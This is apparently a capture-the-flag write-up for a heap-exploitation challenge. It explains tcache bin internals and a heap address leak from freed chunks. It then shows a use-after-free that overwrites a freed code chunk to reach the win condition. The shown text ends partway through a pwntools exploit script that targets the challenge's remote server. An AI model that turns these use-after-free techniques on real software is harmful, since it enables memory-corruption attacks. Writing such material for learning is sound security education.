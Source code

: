 ## A Heap Leak Rabbit-Hole

So, in modern implementations such as Ubuntu 20, freed chunks of memory are stored in tcache bins. Chunks that are the same or similar in size are stored in the same bin in a singly-linked list. When a chunk is freed, the first sixteen bytes of that chunk are overwritten with metadata; the first eight bytes is an address pointing to the next chunk in the list; the next eight bytes are a key value that points to the beginning of the tcache structure.

Practically, in this context, we can easily print the values of these pointers to the terminal. Since "View arachnoid" prints strings in chunks regardless of allocation status, if I free arachnoids and do not allocate the same number of new arachnoids, the name and code values will be printed as the address of the next chunk in the tcache list. Here is a snippet of what it looks like; the order of frees was index 2, 1, 0:
```
 Arachnoid 0:
Name: p\xf3\xe94yU
Code: \xc0\xf2\xe94yU
Arachnoid 1:
Name: \xf0\xf3\xe94yU
Code: @\xf3\xe94yU
Arachnoid 2:
Name: 
Code: \xc0\xf3\xe94yU
```
Arachnoid 2's name is empty because it was the first chunk to get freed, so it is at the head of the list and does not point to anything else. If you have GDB GEF installed, you can also use "heap bins" to view the contents of your tcache bins and verify that their addresses seem to match up with the leaked next values.
```
gef➤  heap bins
─────────────────────────── Tcachebins for thread 1 ───────────────────────────
Tcachebins[idx=1, size=0x30] count=6  ←  Chunk(addr=0x557934e9f2f0, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x557934e9f2c0, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x557934e9f370, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x557934e9f340, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x557934e9f3f0, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x557934e9f3c0, size=0x30, flags=PREV_INUSE) 

```

Ultimately, these leaks were not helpful to solving the challenge, but I think that this is a great starting example of what you can potentially do with heap pwn.

## Writing the Exploit

A final piece of information makes solving this challenge very simple; at least with tcache, freed chunks are allocated on a last-in first-out basis. When you free an arachnoid, the last chunk to be freed is a code chunk. When you create one, the first chunk allocated is a name chunk. As a result, if you create an arachnoid after previously deleting one, the freed code chunk is overwritten with the name of your chosing, and since indexes to those freed chunks are never overwritten, you can effectively create arachnoid entries with a name of "bad" and a code value of your choosing. This lets us trigger the win condition on "Obtain arachnoid". Here is a simple pwntools script to implement this strategy, with a couple of extra views for illustrative purposes:
```
from pwn import *

#target = process('./arachnoid_heaven')

#pid = gdb.attach(target, "\nb *craft_arachnoid\nb *view_arachnoid\n set disassembly-flavor intel\ncontinue")

target = remote('64.227.38.214', 30311)

def craft_arachnoid(name):
	print(target.recvuntil(b'>'))
	target.sendline(b'1')
	print(target.recvuntil(b'Name:'))
```